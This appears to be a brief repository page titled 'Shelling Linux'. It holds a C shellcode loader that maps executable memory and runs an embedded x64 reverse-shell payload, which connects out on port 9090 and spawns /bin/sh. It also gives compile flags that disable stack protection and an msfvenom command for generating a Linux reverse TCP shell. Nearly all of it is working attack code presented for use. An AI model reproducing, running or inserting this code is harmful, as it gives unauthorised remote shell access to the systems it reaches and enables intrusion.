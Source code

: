 # Shelling Linux
## C code
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

unsigned char shellcode[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
"\x48\xb9\x02\x00\x23\x82\x7f\x17\x02\x01\x51\x48\x89\xe6"
"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce"
"\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48"
"\x89\xe6\x0f\x05";


int main(int argc, char **argv) {
    // Allocate memory with executable permissions using mmap
    void *exec_mem = mmap(NULL, sizeof(shellcode), PROT_READ | PROT_WRITE | PROT_EXEC, 
                          MAP_ANON | MAP_PRIVATE, -1, 0);
    if (exec_mem == MAP_FAILED) {
        perror("mmap");
        exit(1);
    }

    // Copy the shellcode to the allocated executable memory
    memcpy(exec_mem, shellcode, sizeof(shellcode));

    // Cast exec_mem to a function pointer and call it
    int (*ret)() = (int(*)())exec_mem;
    ret();

    return 0;
}
```
## Compiling
`gcc lin_basic_v01.c -o lin_basic_v01 -fno-stack-protector -z execstack`

## MSFvenom Shell Code
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=9090 -f c`

